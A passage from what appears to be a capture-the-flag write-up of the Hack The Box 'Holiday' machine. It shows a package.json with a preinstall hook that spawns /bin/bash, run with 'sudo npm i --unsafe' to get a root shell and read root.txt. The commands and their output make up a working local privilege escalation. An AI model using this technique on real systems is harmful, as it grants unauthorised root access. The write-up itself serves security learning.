 I’ll create my own `package.json` in a folder for my fake Node app. `npm`
requires that a package have a name and a version.

    
    
    algernon@holiday:/dev/shm$ cat 0xdf/package.json 
    {
      "name": "root_please",
      "version": "1.0.0",
      "scripts": {
        "preinstall": "/bin/bash"
      }
    }
    

Now I’ll just give it a run:

    
    
    algernon@holiday:/dev/shm$ sudo npm i 0xdf/ --unsafe
    
    > root_please@1.0.0 preinstall /dev/shm/node_modules/.staging/root_please-ea155d5e
    > /bin/bash
    
    root@holiday:/dev/shm/node_modules/.staging/root_please-ea155d5e# id
    uid=0(root) gid=0(root) groups=0(root)
    

From there I can grab `root.txt`:

    
    
    root@holiday:/root# cat root.txt 
    a844cb50...
    

[](/2019/09/11/htb-holiday.html)

